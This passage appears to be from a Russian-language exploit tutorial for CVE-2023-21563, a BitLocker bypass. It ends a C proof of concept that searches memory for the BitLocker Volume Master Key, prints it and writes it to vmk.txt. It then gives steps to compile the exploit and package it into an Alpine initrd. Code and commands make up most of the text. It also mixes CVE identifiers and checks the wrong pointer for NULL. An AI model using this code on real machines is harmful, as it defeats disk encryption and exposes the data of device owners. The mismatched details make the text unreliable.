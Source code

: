 ```
            continue;
        }

        void* pmd_vmk_addr = memmem(pmd_vmk_hdr_addr, end, "\x03\x20\x01\x00", 4);
        if (pmd_vmk_hdr_addr == NULL) {
            printf("[+] VMK-needle not found!\n");
            continue;
        }

        char* vmk = pmd_vmk_addr + 4;
        printf("[+] found VMK at: %p \n", vmk);

        // Теперь выводим VMK
        printf("VMK = ");
        for (int i = 0; i < 32; i++) {
            printf("%02x ", (unsigned char)vmk[i]);
        }
        printf("\n");

        // Открываем файл для записи в формате txt
        FILE* file = fopen("vmk.txt", "w");
        if (!file) {
            perror("[ERROR] Failed to open vmk.txt for writing");
            continue;
        }

        // Записываем VMK как строку шестнадцатеричных чисел
        for (int i = 0; i < 32; i++) {
            fprintf(file, "%02x", (unsigned char)vmk[i]);
        }

        fclose(file);
        printf("[+] VMK saved to 'vmk.txt'. press ctrl+c to Exiting program.\n");
        getchar(); // Ожидаем нажатия клавиши Enter
    }
```
![Куда вставлять?](iamge/end_of_PoC.png)

Скомплиируем наш exploit
теперь прейдём в папку с exploit и скомпилируем бинарный файл
```
cd CVE-2023-21563 && make
```
## Сборка initrd
Создадим initrd файл при помощи alpine-initrd
```
git clone https://github.com/lsiudut/alpine-initrd.git
```
Теперь у нас есть всё необходимое для дальнейшей настройки
Скопируем все файлы в нужную папку alpine-initrd/docker/
```
sudo cp -r kernel-modules/ CVE-2024-1086/ alpine-initrd/docker/
```
отредактируем Docker файл
```
vim alpine-initrd/docker/Dockerfile
```
[Со следующим содержимым](alpine-initrd/docker/Dockerfile)
```
FROM alpine:3.4

COPY build.sh /
COPY init /
```